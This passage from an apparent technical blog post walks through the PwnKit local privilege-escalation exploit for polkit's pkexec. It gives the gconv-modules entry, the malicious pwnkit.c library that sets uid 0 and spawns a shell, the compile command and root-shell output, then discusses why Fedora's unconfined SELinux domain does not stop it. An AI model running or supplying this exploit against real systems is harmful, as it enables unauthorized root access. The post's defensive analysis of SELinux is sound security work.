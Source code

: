 More self contained versions are available online, but this seems to be the minimum use case for exploitation.  We also need to create a directory named `GCONV_PATH=.`, containing an executable file named `pwnkit`, and another directory named `pwnkit`.  The `pwnkit` directory contains a gconv configuration file named `gconv-modules` and a shared library named `pwnkit.so`.

gconv-modules:

```
    module UTF-8// PWNKIT// pwnkit 2
```

pwnkit.c:

```
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    
    void gconv() {}
    void gconv_init () {
    	setuid(0);
    	setgid(0);
    	seteuid(0);
    	setegid(0);
    	system("PATH=/usr/bin:/usr/bin /bin/sh");
    	exit(0);
    }
```

We compile pwnkit.c as a shared library like so:

```
    $ gcc pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC
```

And that's all we need!  Now we run our exploit:

```
    $ gcc exploit.c
    $ ./a.out
    sh-5.1# id
    uid=0(root) gid=0(root) groups=0(root),10(wheel),1000(dburgener) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

Perfect, we have a root shell.  Now lets consider the vulnerability in the presence of SELinux.

## Fedora Targeted policy and SELinux domains
You may have noticed in the id command output above, that our SELinux context of `unconfined_u:unconfined_r:unconfined_t` was displayed.  As the name implies, `unconfined_t` is (almost entirely) unconfined by SELinux.  The philosophy behind Fedora's policy is to avoid breaking things for logged in users by giving them full access, while targeting SELinux confinement to various system processes and daemons.  This means that for a logged in regular user, SELinux is giving us no extra protection against pwnkit.  SELinux protections are only as strong as the policy provided.  We can demonstrate this easily by going back to enforcing mode (`$ sudo setenforce 1`) and running our exploit again.  Again, we get a root shell.
